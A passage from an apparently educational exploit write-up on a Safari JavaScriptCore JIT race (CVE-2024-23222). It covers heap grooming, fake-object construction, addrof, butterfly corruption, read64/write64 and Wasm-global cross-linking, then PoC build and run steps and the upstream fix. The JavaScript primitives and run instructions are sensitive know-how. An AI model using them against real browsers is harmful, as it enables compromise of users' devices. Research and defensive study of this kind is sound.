  Byte 6:    InlineTypeFlags = 0x00 (none)
  Byte 7:    CellState      = 0x01 (DefinitelyWhite)
```

| Field | Value | Why |
|---|---|---|
| StructureID | `0x31337` | Not checked yet: indexed access on generic-array elements emits `CheckArray` (IndexingType only), not `CheckStructure`. Step 9 replaces it. |
| IndexingType | `0x06` NonArrayWithDouble | Must match `fakeArrayLike`'s (a plain object with `Array.prototype.fill.call`-installed double elements) so the FTL `CheckArray` in `phantomRW()` passes. |
| JSType | `0x17` ObjectType | Generic JSObject. `phantomRW()` only checks IndexingType, so the exact value doesn't matter; the point is avoiding an exotic type whose specialized paths inspect fields the phantom doesn't have. |
| InlineTypeFlags | `0x00` | No special handling. |
| CellState | `0x01` DefinitelyWhite | Skips the [write-barrier slow path](#garbage-collection). `0x00` would send `phantom[i] = ...` into `writeBarrierSlowPath`, which derives a `MarkedBlock*` from the phantom's address; the phantom sits at `pm.phantom + 16`, mid-cell, and the derivation lands on garbage. |

### Step 7: The Heap Layout

Since `phantom[i]` reads `*(addr(overlapObj) + i*8)`, the exploit allocates objects in a specific order to control who's adjacent to `overlapObj`:

```javascript
for (let t = 0; t < 256; t++) pm.tmpOptArr[t] = { a1: 3.14, a2: 1.1 };
let overlapObj = { b1: pm.ref2 };                  // allocated HERE: between two batches
overlapObj[0] = 1.1; ... overlapObj[4] = 1.1;      // give overlapObj indexed storage
for (let t = 256; t < 512; t++) pm.tmpOptArr[t] = { a1: 3.14, a2: 1.1 };
let adjacentObj = pm.tmpOptArr[256];               // allocated right after overlapObj
let altAdjacentObj = pm.tmpOptArr[255];            // allocated right before overlapObj
```

Step 5's spray pushed the allocator's cursor into a block that sweeps clean, so these allocations come out sequentially. All of them (`overlapObj`, `adjacentObj`, `altAdjacentObj`, the tmpOptArr entries) have 1-2 named properties and land in the 32-byte size class (8 JSCell + 8 butterfly ptr + 16 inline storage). So:

```
addr(altAdjacentObj) = addr(overlapObj) - 32        (or addr(overlapObj) + 32 if bump goes downward)
addr(adjacentObj)    = addr(overlapObj) + 32        (or addr(overlapObj) - 32)
```

The phantom's view of memory:

![phantom[i] indexes through overlapObj into adjacentObj](images/phantom-view.svg)

The exploit validates this layout: `addrof(adjacentObj) - addrof(overlapObj)` must equal 32 (or `addrof(altAdjacentObj) - addrof(overlapObj)` must equal 32 if the allocator goes the other way). If neither holds, it throws to retry.

### Step 8: Building addrof

Setup: a `Float64Array` `commBuffer` (with a `Uint32Array` view `commView32` over the same bytes for extracting 32-bit fields), an indirection array `pm.gRWArray1` (`[0]` = read target, `[2]` = write target, `[1]` unused), and the training target:

```javascript
let fakeArrayLike = { p1: 1, p2: 1, length: 16 };
Array.prototype.fill.call(fakeArrayLike, 1.1);   // indexed 0..15, all doubles
pm.gRWArray1[0] = pm.gRWArray1[2] = fakeArrayLike;
```

`fakeArrayLike` is a plain object (not a JSArray) with IndexingType **0x06 NonArrayWithDouble**, the same as the phantom's crafted header. The name `CheckArray` is misleading here: it guards the `[i]` access path by checking the IndexingType byte, and any object with indexed storage has one, JSArray or not. The mode it checks carries an explicit class field, and `NonArray` is one of the values ([DFGArrayMode.h:85](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/dfg/DFGArrayMode.h#L85)). So the FTL trains against `fakeArrayLike`, compiles a `CheckArray(NonArray+Double)` guard for 0x06, and that guard passes when the phantom is swapped in.

Note there is no bug being exploited here. Unlike `trigger()`, where the race *removed* the guard so a mismatched type could slip past, `phantomRW()`'s `CheckArray` is alive and the phantom has to satisfy it legitimately. The constraint runs phantom → trainer: Step 6 already pinned the fake header at 0x06 (DoubleShape so element reads are raw bits; NonArray because the phantom's JSType is ObjectType and claiming 0x07 `ArrayWithDouble` alongside that is an inconsistent pair), and `fakeArrayLike` is built to match. A mismatch would OSR-exit on the first post-swap call, and repeated exits would jettison the code and recompile with the phantom in the profile, sending the compiler thread poking at a fake object with a garbage StructureID.

The exploit then FTL-compiles `phantomRW()`, which reads phantom elements into `commBuffer`:

```javascript
function phantomRW(writeIndex, writeValue) {
    let readTarget = pm.gRWArray1[0];       // load from indirection array
    commBuffer[0] = readTarget[2];          // phantom[2] → overlapObj's inline[0]
    commBuffer[1] = readTarget[4];          // phantom[4] → adjacentObj's header
    commBuffer[2] = readTarget[5];          // phantom[5] → adjacentObj's butterfly
    commBuffer[3] = readTarget[0];          // phantom[0] → overlapObj's header
    commBuffer[4] = readTarget[1];          // phantom[1] → overlapObj's butterfly
    let writeTarget = pm.gRWArray1[2];
    writeTarget[writeIndex] = writeValue;   // write path (separate from read path)
}
for (let i = 0; i < 1048576; i++) phantomRW(/*writeIndex=*/1, /*writeValue=*/1.1);   // 1M warmup → FTL
```

**The bounds check passes by groom, not by elision.** The disassembly shows `ldur w5, [x7, #-8]; cmp w5, #5; b.ls` right before the loads. The check reads `publicLength` from `*(phantom_butterfly - 8)` = `*(addr(overlapObj) - 8)`, which is offset +24 of the previous 32-byte cell, `tmpOptArr[255]`. That cell was sprayed as `{a1: 3.14, a2: 1.1}` and offset +24 is the `a2` slot. `JSValue(1.1)` has low 32 bits `0x9999999A` ≈ 2.5 billion, the check asks "is 2.5 billion > 5?", and falls through. The `a2: 1.1` in the spray template is doing real work: with one property the slot would be zero and the check would OSR-exit.

**Why the `gRWArray1` indirection?** A direct reference to the phantom might constant-fold and get a `CheckIsConstant` guard. Loading from a mutable global forces a real load every call, swappable without recompiling.

The addrof primitive:

```javascript
addrof = function(target) {
    overlapObj.b1 = target;                            // store target in overlapObj's inline[0]
    pm.gRWArray1[2] = fakeArrayLike;                   // phantomRW's write path → safe target
    phantomRW(/*writeIndex=*/1, /*writeValue=*/1.1); // read phantom elements into commBuffer[]
    return L(commBuffer[0]);                           // commBuffer[0] = phantom[2] = overlapObj.b1
};                                                     // L() extracts raw 64-bit pattern → address of target
```

### Step 9: Stealing the StructureID

The phantom's StructureID is upgraded twice as better tools come online:

**Phase 1: hardcoded `0x31337`.** The phantom isn't accessed as a JS object during `phantomRW()`'s warmup (it operates on `fakeArrayLike`), so the StructureID only matters for the ~2-line window after `pm.gRWArray1[0] = pm.trapArray[1]` makes it GC-visible. Nothing on the hot path decodes it: `typeof` reads JSType directly at cell+5, indexed access reads IndexingType at cell+4. The fake ID just sits there until Phase 2 replaces it.

**Phase 2: stolen from `overlapObj`.** `phantom[0]` *is* `overlapObj`'s JSCell header. Read it into `commBuffer[3]`, extract the low 32 bits via `commView32[6]`, repack the header. This is the only real StructureID reachable before `read64` exists. Risk: `overlapObj`'s Structure has one named property (`b1`), so a GC scan would try to read inline[0] of the fake. The fake's header sits at `pm.phantom+0x10`, so its inline[0] is at `pm.phantom+0x10+0x10 = pm.phantom+0x20`, one slot past `pm.phantom`'s 32-byte allocation, and the bytes there belong to whatever object the allocator put next. The pushed-back collection makes that unlikely.

**Phase 3: stolen from `structDonor`.** Once `read64` works:

```javascript
let structDonor = {};
structDonor[0] = .1;                              // indexed storage, ZERO named properties
pm.far[0] = read64(addrof(structDonor) - 4) / R;  // / 2^32 → high 32 bits → StructureID
```

Zero named properties means the GC skips inline-slot scanning entirely. NonArrayWithDouble means it skips butterfly elements too (raw doubles, not pointers). Fully GC-safe.

### Step 10: Butterfly Corruption

The exploit overwrites adjacentObj's butterfly pointer to point at rwArray's butterfly pointer **field**:

```javascript
let rwArray = new Array(1.1, 1.1, 1.1, 1.1);   // ArrayWithDouble
let B = addrof(rwArray);

pm.gRWArray1[2] = pm.gRWArray1[0];             // phantomRW()'s write path → phantom
phantomRW(5, K(B + 8));                        // write K(addr(rwArray)+8) to phantom[5]
```

`phantom[5]` writes to `*(addr(overlapObj) + 40) = *(addr(adjacentObj) + 8)` = adjacentObj's butterfly pointer. The value written is `addr(rwArray) + 8`. Now:

```
adjacentObj's butterfly = addr(rwArray) + 8

adjacentObj[0] reads/writes at *(addr(rwArray) + 8 + 0) = *(addr(rwArray) + 8)
                                                        = rwArray's butterfly pointer FIELD
```

Writing to `adjacentObj[0]` overwrites rwArray's butterfly pointer. Reading from `rwArray[0]` then reads from wherever rwArray's butterfly now points.

![A butterfly pointer aimed at another butterfly pointer: adjacentObj's is fixed at rwArray+8, so adjacentObj[0] re-aims rwArray, and rwArray[0] dereferences whatever it was aimed at](images/butterfly-corruption.svg)

### Step 11: The read64/write64 Primitives

The exploit FTL-compiles two functions that implement the temporary butterfly overwrite pattern:

```javascript
let targets = [rwArray, fakeArrayLike];     // targets[0] = rwArray, targets[1] = fakeArrayLike

function readGadget() {
    let arr   = targets[0];                // arr = rwArray (ArrayWithDouble)
    let proxy = targets[1];                // proxy = adjacentObj (after swap) or fakeArrayLike (warmup)
    arr[2] = 3.3;                          // anchor the bounds check HERE (see below)
    proxy[0] = commBuffer[0];              // CORRUPT: write target addr to adjacentObj[0] → rwArray's butterfly
    useless[1] = 3.3;                      // opaque side effect: keeps the FTL from reordering across this line
    commBuffer[0] = arr[0];                // READ: rwArray[0] = *(target_addr) as raw double
    proxy[0] = commBuffer[1];              // PARK: rwArray's butterfly = savedButterfly (a safe value, see below)
    return commBuffer[0];
}

function writeGadget() {
    let arr   = targets[0];                 // arr = rwArray
    let proxy = targets[1];                 // proxy = adjacentObj (after swap)
    arr[2] = 3.3;                           // anchor the bounds check here
    proxy[0] = commBuffer[0];               // CORRUPT: rwArray's butterfly = target addr
    useless[1] = 3.3;                       // opaque side effect
    arr[0] = commBuffer[2];                 // WRITE: *(target_addr) = value
    proxy[0] = commBuffer[1];               // PARK: rwArray's butterfly = savedButterfly
}
```

**Why FTL, and why `arr[2] = 3.3`?** The function touches `arr` twice: `arr[2]` before the corruption and `arr[0]` after. Each access needs a bounds check, and the interpreter does one per access: it would re-check at `arr[0]` against `*(target_addr - 8)`, eight arbitrary bytes before whatever address you're trying to read. Could be zero. The FTL is smarter: it sees two accesses to the same array with constant indices, emits one shared check (max index 2), and places it at the *first* access. The disassembly confirms this: `D@3 CheckInBounds` has refcount 2, both `arr[2]` (`D@51`) and `arr[0]` (`D@91`) consume it, and it executes against the butterfly loaded *before* `proxy[0]` corrupts it. The FTL has no idea `proxy[0]` aliases `arr`'s butterfly field, so it doesn't think the length could have changed. `arr[2] = 3.3` exists to plant that check on the safe side of the corruption; without it the only `arr` access is post-corruption and the check lands there.

During warmup, `targets[1] = fakeArrayLike` (the safe training target with the same IndexingType as `adjacentObj`, so writes go nowhere dangerous). During actual exploitation, the wrappers swap `targets[1]` to `adjacentObj`:

```javascript
function read64(addr) {
    targets[1] = adjacentObj;               // use adjacentObj for the write channel
    commBuffer[0] = K(addr);                // target address as double bits
    commBuffer[1] = savedButterfly;         // safe parking value for rwArray's butterfly
    return L(readGadget());                 // extract raw 64-bit value
}

function write64(addr, val) {
    targets[1] = adjacentObj;
    commBuffer[0] = K(addr);
    commBuffer[1] = savedButterfly;
    commBuffer[2] = K(val);                 // value to write as double bits
    writeGadget();
}
```

`savedButterfly` is not `rwArray`'s original butterfly. It comes from `commBuffer[4]` = `phantom[1]` = `*(addr(overlapObj) + 8)`, which is **overlapObj's** butterfly pointer. `overlapObj` has five indexed doubles (`overlapObj[0..4] = 1.1`), so its butterfly is a real allocation with a valid IndexingHeader. Pointing `rwArray` at it between operations is enough to survive a GC scan; restoring `rwArray`'s actual original would require an extra `addrof` call before the corruption, and the exploit doesn't bother.

### Step 12: Wasm Global Cross-Linking

The butterfly-based read64/write64 is fragile: each operation temporarily corrupts `rwArray`'s butterfly pointer, reads/writes, then parks it. If the GC runs between corrupt and park, `rwArray`'s butterfly is invalid and the process crashes.

The permanent home is WebAssembly. Back at the very top of `pm.init`, before any of Steps 1-11 ran, the exploit instantiated two copies of a hand-rolled Wasm module from an inline byte array (`new WebAssembly.Instance(new WebAssembly.Module(bytes))`, twice, stashed as `pm.instA` and `pm.instB`). They were created that early so their allocations wouldn't land in the middle of the heap groom Steps 5-7 depend on, and they've sat untouched since. Now the exploit uses the butterfly primitives a handful of times to rewire those two instances into a read/write gadget, then never touches butterflies again.

The module declares eight globals. Only the second one matters:

| # | type      | init                | purpose                              |
|---|-----------|---------------------|--------------------------------------|
| 0 | v128 mut  | `0x33` × 16         | fence (debugging eyecatcher)         |
| 1 | i64 mut   | `0xabcdabcdabcdabcd`| **the cross-link slot**              |
| 2 | v128 mut  | `0x33` × 16         | fence                                |
| 3-7 | externref mut | null          | unused                               |

Global 1 is exported (as `edfy`) and mutable. The export is never read from JavaScript; its only purpose is a side effect inside the section parser. When [WasmSectionParser.cpp:451-454](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/wasm/WasmSectionParser.cpp#L451-L454) sees a mutable global in the export section, it flips that global's storage to `BindingMode::Portable`:

```cpp
case ExternalKind::Global: {
    // ... (simplified)
    GlobalInformation& global = m_info->globals[kindIndex];
    if (global.mutability == Mutability::Mutable)
        global.bindingMode = GlobalInformation::BindingMode::Portable;
```

A non-portable global stores its value directly in the instance's tail array. A portable one stores a `Value*` instead, and the BBQ JIT generates an extra dereference for it ([WasmBBQJIT.cpp:1704-1715](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/wasm/WasmBBQJIT.cpp#L1704-L1715)): `loadPtr(instance + offset)` to fetch the pointer, then `load64(scratch)` to read through it.

That extra indirection is the entire trick. Whoever controls the pointer in that slot controls where `global.get`/`global.set` go.

A `Wasm::Instance` is a 152-byte header followed by a tail array: `numTables` × 8 bytes of `Table*`, rounded up to 16, then `numGlobals` × 16 bytes of `Global::Value`. With one table and eight globals the live layout under lldb is:

```
+152: 0x0000000113021640   Table*  (8 bytes; 152+8=160 is already 16-aligned)
+160: 0x3333333333333333   global 0 lo  ┐
+168: 0x3333333333333333   global 0 hi  ┘ v128 fence
+176: 0x00000001130216a8   global 1     ← Value*  (Portable: a pointer)
+184: 0x0000000000000000   global 1     unused upper half
+192: 0x3333333333333333   global 2 lo  ┐
+200: 0x3333333333333333   global 2 hi  ┘ v128 fence
+208..+287: 0x0000000000000002 / 0x0    five externref slots (encoded jsNull)
```

The `0x33` walls bracket the slot in a hex dump, which is convenient for the exploit author staring at a debugger but never actually consulted by the exploit code (no scan for `0x33` anywhere in the JS). The five externrefs are harder to explain. No Wasm function references them, no export exposes them, and every write into the instance lands at +96 or +176; the same module appears byte-for-byte in the kit's 16.2-16.5 variant, and Stage 2 doesn't touch Wasm at all. Their only observable effect is bumping the `fastMalloc` request from 208 to 288 bytes, which lands the instance in a different libpas page (verified under lldb), but every access the exploit makes is interior to the allocation so placement can't matter. Best guess: leftover from a development iteration that didn't ship.

The exploit reaches the slot in two hops: `addrof(jsInstance)` gives the `JSWebAssemblyInstance`, a `read64` at the `m_instance` member offset gives the separate `Wasm::Instance` heap allocation, and +176 into that is global 1's pointer.

The cross-link is one write:

```javascript
// A's slot 1 (a Value*) ← address of B's slot 1
write64(instA_tail + offsetOfGlobal(1), instB_tail + offsetOfGlobal(1));
```

After this, the two instances form a chain:

- `A.alt(addr)` → `global.set 1, addr`: the JIT loads A's slot 1 (now `&B.slot1`), then stores `addr` there. B's slot pointer is now `addr`.
- `B.btl()` → `global.get 1`: the JIT loads B's slot 1 (now `addr`), then loads from it. Returns `*addr`.
- `B.alt(val)` → `global.set 1, val`: loads B's slot 1 (`addr`), stores `val` there. Writes `*addr = val`.

**Why two instances?** A single instance can't aim itself. `global.set 1` always *dereferences* the slot pointer; it can never write *to* the slot. With two instances, A's dereference lands on B's slot, and then B's dereference lands wherever A pointed it.

The exploit also writes `0x8000000000000000` into a size field on both instances before the cross-link. The cassowary source uses an obfuscated offset table here so the exact field isn't certain, but `m_cachedBoundsCheckingSize` (the linear-memory bounds limit, [WasmInstance.h:256](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/wasm/WasmInstance.h#L256)) is the likely target: setting it to a huge unsigned value makes every `memory.load`/`memory.store` bounds check pass, which Stage 2 will need.

The butterfly primitives were the scaffolding; the Wasm chain is the permanent structure. Stage 1 is complete.

## The PoCs

The bug is in JavaScriptCore, and JavaScriptCore is identical on iOS and macOS. Reproducing on an iPhone means jailbreaking it first, which is hard (hopefully by the end of this series we can do that). For now: macOS.

The vulnerable revision is [`cbe051a9a376`](https://github.com/WebKit/WebKit/commit/cbe051a9a376), tagged `WebKit-7617.1.17.13.7`, which is the JavaScriptCore that shipped in iOS 17.2.1 and Safari 17.2. The PoC ships in two flavors: a standalone `.js` file for the `jsc` shell (fast iteration, no DOM noise) and an HTML harness for MiniBrowser (closer to the real attack surface).

### The jsc Shell

The shell build is just the engine plus a `print()` function: no WebCore, no networking. It builds in about ten minutes on Apple Silicon. The PoC scripts expect the checkout at `jsc-vuln/WebKit` relative to the repo root:

```sh
git clone --filter=blob:none https://github.com/WebKit/WebKit.git jsc-vuln/WebKit
cd jsc-vuln/WebKit
git checkout WebKit-7617.1.17.13.7
Tools/Scripts/build-jsc --release
cd ../..
```

A current Xcode building 2023 WebKit is fighting two years of toolchain drift: deprecation warnings promoted to errors, libc++ assertion macros that were renamed, an SDK additions shim that doesn't exist for your SDK version. The fixes are mechanical and the [build script in the PoC repo](poc/build-webkit-browser.sh) has them documented inline; the short version is `GCC_TREAT_WARNINGS_AS_ERRORS=NO` and a symlink in `WebKitLibraries/SDKs/`.

The binary lands at `jsc-vuln/WebKit/WebKitBuild/Release/jsc`, dynamically linked against the JavaScriptCore framework next to it, so running it bare loads the *system* (patched) JSC and dies on a missing symbol. Point `DYLD_FRAMEWORK_PATH` at the build directory:

```sh
FW=jsc-vuln/WebKit/WebKitBuild/Release
DYLD_FRAMEWORK_PATH=$FW $FW/jsc poc/cve-2024-23222-rw.js
```

The race is one shot per process, so a miss means relaunching. [`poc/retry-race.sh`](poc/retry-race.sh) wraps that loop, sets the framework path itself (SIP strips `DYLD_*` across `/bin/bash`, so setting it in your shell before calling the script doesn't survive), and reads the output for the Stage-1-complete marker. The PoC carries 47 loops per side instead of cassowary's 36, widening the CFA→CFold gap to ~2000 ticks; on M-series with `PIVOT=178000` and `WARMUP=250000` it lands ~89% on an idle machine and degrades under load (the window is comparable to OS scheduler jitter on the compiler thread's wake-up, so contention shows up directly in the hit rate). The plateau runs roughly 173K–186K. If your hardware skews differently the comments at the top of the file explain how to read which side of the window you're on and which way to nudge `PIVOT`.

### MiniBrowser

MiniBrowser is WebKit's stripped-down browser shell: real WebContent process, real DOM, real multi-process IPC, but no Safari chrome. It's the closest you can get to the production attack surface without code-signing a custom Safari.

Building it means building all of WebCore, which is the long part (an hour or two on M-series), and it needs full Xcode rather than CommandLineTools. The [build script](poc/build-webkit-browser.sh) drives `xcodebuild` directly because Xcode 26's parallel scheduler races a few targets in the wrong order against this checkout's dependency declarations; the script papers over that by building WTF first as a separate phase.

```sh
sudo xcode-select -s /Applications/Xcode.app
poc/build-webkit-browser.sh
```

There is one gotcha that isn't a build issue. If macOS Lockdown Mode is enabled, `WebProcessPoolCocoa.mm` [whitelists](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/WebKit/UIProcess/Cocoa/WebProcessPoolCocoa.mm#L975) the bundle ID `org.webkit.MiniBrowser` to honor it, which means WebContent spawns in CaptivePortal mode with no JIT at all. No JIT means no FTL, no compiler thread, no `tryGetConstantProperty` calls to race. The PoC reloads forever and never lands. The fix is to rename the bundle so the whitelist check falls through:

```sh
FW=jsc-vuln/WebKit/WebKitBuild/Release
/usr/libexec/PlistBuddy -c \
    "Set :CFBundleIdentifier org.webkit.MiniBrowserNoLockdown" \
    "$FW/MiniBrowser.app/Contents/Info.plist"
codesign -f -s - "$FW/MiniBrowser.app"
```

With that done, [`poc/run-minibrowser-poc.sh`](poc/run-minibrowser-poc.sh) sets the `DYLD_FRAMEWORK_PATH` plumbing (and its `__XPC_*` mirrors so the WebContent child process inherits it) and points the browser at the HTML harness:

```sh
poc/run-minibrowser-poc.sh -rw
```

The `-rw` harness runs one attempt per Worker rather than reloading the page. Worker context has no DOM or event loop on its thread, so timing tracks the jsc shell closely: PIVOT defaults to 175,000 and the reliable band is 173K-182K, almost the same as the shell's. The page goes green when the read64/write64 self-test passes; `window.lastResult` in the DevTools console holds the verification dump.

## The Fix

The patch ([`31601205b6f3`](https://github.com/WebKit/WebKit/commit/31601205b6f3), later simplified in [`66f60deae73`](https://github.com/WebKit/WebKit/commit/66f60deae73)) doesn't try to make the watchpoints see more; it accepts that they can't, and refuses to trust the heap read in the cases they don't cover. After the existing watchpoint-and-structure checks, the new code asks two questions:

1. Is every Structure in the set transition-watched (`dfgShouldWatch()`)? If so, the object can't leave the set without firing a transition watchpoint, so there's no unwatched territory to wander through, and the read is safe.
2. Is the set a singleton? If so, there's no second Structure for the object to re-enter the set at, so the only way back into the accept set is to never leave, which the existing watchpoints do cover. The patch additionally records `(object, offset, value, structure)` on the plan and re-checks it on the main thread at install time, closing the smaller window between the read and the install.

If neither holds, `return JSValue()`. Cassowary's IC has `{S₂, S₆}`. S₂'s transition watchpoint was fired the moment `divergentObj` did `delete p2` back in Step 2 (verified under lldb: the `InlineWatchpointSet` field went from raw value `3` to `5`, `IsWatched` to `IsInvalidated`), so case 1 fails. Two entries, so case 2 fails. tgcp now returns null every time, CFA never publishes a narrow type, `CheckArray` survives.

Notice the patch doesn't touch the CFA→ConstantFolding window at all. It targets the multi-entry set, because that precondition feeds more than one consumer. The bytecode parser calls `tryGetConstantProperty` too ([DFGByteCodeParser.cpp:5114](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/dfg/DFGByteCodeParser.cpp#L5114)), and a successful read there bakes a stale *value* into a `JSConstant` (no type confusion, but a permanent disagreement with the heap). And at the DFG tier, `SpeculativeJIT::checkArray` consults its own fresh abstract-interpreter state ([DFGSpeculativeJIT.cpp:1082](https://github.com/WebKit/WebKit/blob/cbe051a9a376/Source/JavaScriptCore/dfg/DFGSpeculativeJIT.cpp#L1082)) and emits zero instructions for a `CheckArray` it believes is redundant; a race that moves the target *into* the set just before codegen reaches the same type confusion with no stale lattice involved at all. Cassowary takes the ConstantFolding path; the [independently-built PoC](#about-this-series) mentioned in the intro takes the SpeculativeJIT path. Same `tryGetConstantProperty`, same `|set| > 1` precondition, three different ways the compiler can trust an under-watched read. Refusing the read closes all of them.

## Acknowledgments

This builds on prior reverse-engineering work by Huy Nguyen, wh1te4ever, Duy Tran, Nathan, hrtowii, Nick Chan, and others in the jailbreak community who took Coruna apart first. Filip Pizlo's ["Speculation in JavaScriptCore"](https://webkit.org/blog/10308/speculation-in-javascriptcore/) and Samuel Groß's Phrack and Project Zero posts (cited in [Prior Art](#prior-art)) are the foundation everything here stands on.

## Conclusion

Hacking a JIT compiler is reprogramming a program that programs another program. Every line of the exploit has to be read twice: once for what it does at runtime, and once for what it convinces the compiler is true. It's beautiful, and as the last few thousand words have hopefully shown, deeply complicated.

Where we are: arbitrary read/write inside Safari's renderer process, GC-safe, hosted in a pair of Wasm instances. Where that isn't: code execution. On A12-and-later silicon every return address and vtable pointer is signed, and Stage 1's R/W can overwrite them but can't forge the signatures. **Part II** picks up there with Coruna's PAC bypass (codename `seedbell`): no new memory-corruption bug, just the R/W we already have aimed at the right data. After that, the sandbox escape and the kernel; after Coruna, DarkSword.
